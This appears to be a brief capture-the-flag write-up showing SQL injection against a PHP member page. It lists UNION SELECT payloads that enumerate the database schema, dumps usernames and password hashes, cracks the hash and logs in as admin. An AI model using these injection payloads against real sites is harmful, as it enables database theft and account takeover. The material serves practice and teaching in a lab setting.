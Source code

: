 /index.php?page=member

1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
5 union all select table_name,column_name from information_schema.columns

table_schema: Member_Brute_Force
table_name: db_default
columns: id, username, password
5 union all select 1,concat(id,0x3a,username,0x3a,password) from Member_Brute_Force.db_default
=> 1:root:3bf1114a986ba87ed28fc1b5884fc2f8
=> 2:admin:3bf1114a986ba87ed28fc1b5884fc2f8
Unhash : 3bf1114a986ba87ed28fc1b5884fc2f8 gives "shadow"
We login as "admin/shadow" or "root/shadow" and get the flag
